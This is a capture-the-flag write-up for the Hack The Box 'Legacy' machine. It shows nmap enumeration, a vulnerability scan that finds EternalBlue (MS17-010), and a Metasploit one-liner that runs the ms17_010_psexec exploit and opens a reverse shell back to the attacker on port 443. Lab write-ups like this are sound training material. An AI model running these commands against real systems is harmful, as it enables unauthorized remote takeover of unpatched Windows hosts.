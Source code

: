 ```yaml
---
title: "Legacy - HTB"
categories: [Easy]
tags: [Easy,Windows,EternalBlue,SMB,Metasploit]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Legacy.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**

## Diagram

```mermaid
graph TD
	Enumeration --> SMB --> Exploration --> |EternalBlue| A((ROOT))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled.png)

Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled%201.png)

# Exploration

## Exploring EternalBlue

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```

